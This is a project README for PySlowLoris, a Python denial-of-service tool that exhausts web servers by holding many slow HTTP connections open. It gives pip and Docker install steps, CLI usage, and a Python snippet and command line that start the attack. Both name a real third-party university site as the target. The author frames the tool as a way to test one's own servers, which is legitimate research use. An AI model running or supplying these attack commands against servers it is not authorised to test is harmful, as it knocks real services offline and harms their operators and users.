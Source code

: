 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-2.7-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![Coverage Status](https://coveralls.io/repos/github/maxkrivich/SlowLoris/badge.svg?branch=master)](https://coveralls.io/github/maxkrivich/SlowLoris?branch=master)
[![Requirements Status](https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master)](https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master)
[![Code Health](https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat)](https://landscape.io/github/maxkrivich/SlowLoris/master)

This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find [here].

### Install module

##### PyPi
Installing module form PyPi:
```sh
$ pip install pyslowloris
```

##### Docker
Pulling from Docker hub:
```sh
$ docker pull maxkivich/pyslowloris
$ docker run --rm -it maxkivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

Build from Dockerfile:
```sh
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

##### For contributors
```sh
$ git clone https://github.com/maxkrivich/SlowLoris.git
$ cd SlowLoris
$ vitualenv --python=[python version] venv
$ source venv/bin/active
$ pip install --editable .
```

### Usage
```sh
usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

Small and simple tool for testing Slow Loris vulnerability @maxkrivich

optional arguments:
  -h, --help            Show this help message and exit
  -u URL, --url URL     Link to the web server (http://google.com) - str
  -s SOCKET_COUNT, --socket-count SOCKET_COUNT Maximum count of created connection (default value
                        300) - int
  -p PORT, --port PORT  Port what will be used - int

```

#### Code example
Here are some example to start attack via Python
```py
import time
from PySlowLoris import TargetInfo, SlowLorisAttack

target = TargetInfo(url="http://kpi.ua/", port=80)
target.get_info()
slowloris = SlowLorisAttack(target)
slowloris.start_attack() # stop_attack()

while True:
    time.sleep(1)

```

#### Using module via CLI
The following command helps to use module via command line
```sh
$ slowloris -u http://kpi.ua/ -s 300
```


###### stop execution: Ctrl + C

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact [me].

### License
Copyright (c) 2017 Maxim Krivich, [maxkrivich.github.io](https://maxkrivich.github.io/)

Licensed under the MIT License



[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
[me]: <https://maxkrivich.github.io>
